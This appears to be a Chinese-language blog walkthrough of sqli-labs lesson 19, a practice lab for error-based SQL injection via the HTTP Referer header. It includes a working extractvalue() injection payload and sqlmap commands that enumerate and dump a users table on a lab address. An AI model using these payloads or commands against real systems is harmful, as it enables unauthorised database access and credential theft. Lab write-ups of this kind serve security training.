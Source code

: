 ```yaml
---
title: sqli-labs lession 19 POST基于错误的Referer字段数据头注入
date: 2018-09-29 19:49:33
tags:
categories: sql注入
---
```

# sqli-labs lession 19 POST基于错误的Referer字段数据头注入 #

## 登录界面 ##

![1](/img/sql/Lesson-19/1.png)

## 注入 ##

根据题目提示直接在Referer字段尝试。

![2](/img/sql/Lesson-19/2.png)

单引号引起报错

![3](/img/sql/Lesson-19/3.png)

抑制下一个单引号

![4](/img/sql/Lesson-19/4.png)

payload:

`http://10.60.250.66/sql/Less-19/' and extractvalue(null,concat(0x7e,database(),0x7e)) and '1'='1`

![5](/img/sql/Lesson-19/5.png)

详细过程看Lesson-18

{% post_link sqli-labs-lession-18-POST基于错误的Uagent字段数据头注入 点击查看%}

## SQLMAP ##

--data:指定请求数据

--method:指定请求方式

--dbms:指定后端数据库

--thread:指定并发线程

--referer:指定referer字段

--level 3:加入检测User-Agent和Referer

--technique E:检测报错注入

`sqlmap -u "http://10.60.250.66/sql/Less-19/" --data "uname=admin&passwd=admin&submit=Submit" --method POST --dbms mysql --threads 10 --referer "http://10.60.250.66/sql/Less-19/' and '1'='1" --level 3 --technique E `

![6](/img/sql/Lesson-19/6.png)

![7](/img/sql/Lesson-19/7.png)

`sqlmap -u "http://10.60.250.66/sql/Less-19/" --data "uname=admin&passwd=admin&submit=Submit" --method POST --dbms mysql --threads 10 --referer "http://10.60.250.66/sql/Less-19/' and '1'='1" --level 3 --technique E -D security -T users --columns --dump`

![8](/img/sql/Lesson-19/8.png)